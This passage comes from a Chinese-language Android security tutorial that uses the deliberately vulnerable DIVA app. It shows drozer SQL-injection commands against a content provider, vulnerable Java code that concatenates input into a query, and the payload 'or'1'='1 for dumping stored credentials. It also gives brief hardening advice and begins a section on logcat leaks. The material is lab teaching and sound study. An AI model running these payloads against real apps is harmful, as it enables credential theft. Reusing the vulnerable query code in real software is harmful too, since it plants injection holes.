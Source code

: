 ###### 注入
使用drozer注入:这里我们使用projection参数注入，当然也可以采用selection注入，不过payload有不同
1. 爆出表名
```
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```
> SQLite数据库中有一个内置表,名为SQLITE_MASTER,此表中存储着当前数据库中所有表的相关信息
2. 爆出表中数据
```
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --projection "* FROM notes ;--"
```

##### Activity中注入
就是整个操作数据库的逻辑在Activity中完成，DIVA中的第七关
###### 检测
因为这种在Activity的操作不方便自动检查，只能去看源码:DIVA中`SQLInjectionActivity`
```
    public void search(View view) {
        EditText srchtxt = (EditText) findViewById(R.id.ivi1search);
        try {
        //直接拼接输入框中的字符串，没有任何过滤
            Cursor cr = this.mDB.rawQuery("SELECT * FROM sqliuser WHERE user = '" + srchtxt.getText().toString() + "'", null);
            StringBuilder strb = new StringBuilder("");
            if (cr == null || cr.getCount() <= 0) {
                strb.append("User: (" + srchtxt.getText().toString() + ") not found");
            } else {
                cr.moveToFirst();
                do {
                    strb.append("User: (" + cr.getString(0) + ") pass: (" + cr.getString(1) + ") Credit card: (" + cr.getString(2) + ")\n");
                } while (cr.moveToNext());
            }
            Toast.makeText(this, strb.toString(), 0).show();
        } catch (Exception e) {
            Log.d("Diva-sqli", "Error occurred while searching in database: " + e.getMessage());
        }
    }

```
###### 注入
直接输入框爆出所有用户名密码
```
'or'1'='1
```
#### 防护
无论是哪种方式来操作数据库都应该做好输入的过滤，并且保护好db文件，可采用适当的方式加密
#### 微信数据库破解
> http://blog.csdn.net/qq_24280381/article/details/73521836
#### SQLCipher之攻与防
> http://www.freebuf.com/articles/database/108904.html
### logcat数据泄露漏洞(M10)
#### 成因
在APP的开发过程中，为了方便调试，开发者通常会用logcat输出info、debug、error 等信息。如果在APP发布时没有去掉logcat信息，可能会导致攻击者通过查看logcat日志获得敏感信息。
- log.v :详细信息
- log.d: debug信息 
- log.i: info信息
- log.w: warning信息
- log.e: Error信息